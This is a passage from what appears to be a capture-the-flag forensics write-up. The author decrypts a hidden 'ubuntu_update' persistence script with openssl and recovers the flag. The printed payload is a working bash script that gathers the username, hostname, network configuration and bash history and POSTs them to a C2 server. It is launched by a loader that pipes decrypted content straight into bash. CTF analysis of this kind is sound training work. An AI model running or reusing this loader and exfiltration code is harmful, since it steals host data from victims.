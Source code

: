 ```
└─$ curl -s https://gist.githubusercontent.com/zachwong02/a5856cf57578da36179b920615d3e154/raw/491aee2c3edb262f4ad22852ba5dd41223b5e203/ubuntu_update
#/bin/bash

openssl rsautl -decrypt -inkey /home/vaultboy/.ssh/private_key.pem -in /tmp/ubuntu_license.zip -out /tmp/ubuntu_license
openssl enc -d -aes-256-cbc -in /tmp/ubuntu_update.sh.zip -pass file:/tmp/ubuntu_license | bash

rm /tmp/ubuntu_license.zip /tmp/ubuntu_license /tmp/ubuntu_update.sh.zip
```

At this point, the encrypted file and AES key from `/tmp/` can be dumped and used for AES decryption to obtain the flag.

```
└─$ openssl rsautl -decrypt -inkey private_key.pem -in ubuntu_license.zip -out ubuntu_license      
The command rsautl was deprecated in version 3.0. Use 'pkeyutl' instead.

└─$ openssl enc -d -aes-256-cbc -in ubuntu_update.sh.zip -pass file:ubuntu_license       
*** WARNING : deprecated key derivation used.
Using -iter or -pbkdf2 would be better.
#!/bin/bash

# Define the server URL
SERVER_URL="http://192.168.138.128/c2"

# Collect the output of the commands
USERNAME=$(whoami)
HOSTNAME=$(hostname)
IFCONFIG=$(ifconfig)
BASH_HISTORY=$(cat ~/.bash_history)

# Create the data to be sent
DATA=$(cat <<EOF
{
    "username": "$USERNAME",
    "hostname": "$HOSTNAME",
    "ifconfig": "$IFCONFIG",
    "bash_history": "$BASH_HISTORY"
    "flag": IBOH24{pers1sT3NC3_i5_Futi1e}
}
EOF
)

# Send the POST request
curl -X POST -H "Content-Type: application/json" -d "$DATA" $SERVER_URL
```

## SCP 6.0 [Forensics]
Question: SITE-[REDACTED] has been breached by the Chaos Insurgency. Luckily, the network traffic has been captured by the SCP Foundation so that they will live up to their motto. Secure. Contain. Protect.
